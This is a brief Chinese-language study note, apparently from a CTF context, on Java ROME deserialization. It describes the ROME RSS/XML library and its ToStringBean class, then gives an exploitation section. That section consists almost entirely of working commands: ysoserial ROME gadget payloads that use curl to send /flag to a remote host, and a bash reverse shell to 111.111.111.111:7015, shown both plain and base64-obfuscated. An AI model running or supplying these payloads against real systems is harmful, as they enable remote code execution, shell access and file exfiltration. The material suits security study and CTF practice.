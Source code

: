## **ROME反序列化**
ROME它指的是一个有用的工具库，帮助处理和操作XML格式的数据。ROME库允许我们把XML数据转换成Java中的对象，这样我们可以更方便地在程序中操作数据。另外，它也支持将Java对象转换成XML数据，这样我们就可以把数据保存成XML文件或者发送给其他系统。

ROME的应用场景包括新闻聚合应用、博客平台的RSS输出、数据分析等，它可以帮助开发者从多个源抓取并处理RSS或Atom feeds，以实时更新内容，也可以用于创建和维护博客的RSS输出，以便读者订阅。


他有个特殊的位置就是ROME提供了ToStringBean这个类，提供深入的toString方法对Java Bean进行操作。
```
<dependencies>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
 </dependencies>
```

<https://xz.aliyun.com/t/13286?u_atoken=bcc44563e868bc8bbf88f038f56e5316&u_asig=1a0c39a017285446910872366e0133>

## **利用**
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "curl http://vps:7015 -d @/flag" > a.bin


bash -i >& /dev/tcp/111.111.111.111/7015 0>&1
进行base64编码，YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMTExLjExMS4xMTEvNzAxNSAwPiYx

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMTExLjExMS4xMTEvNzAxNSAwPiYx}|{base64,-d}|{bash,-i}" > a.bin
```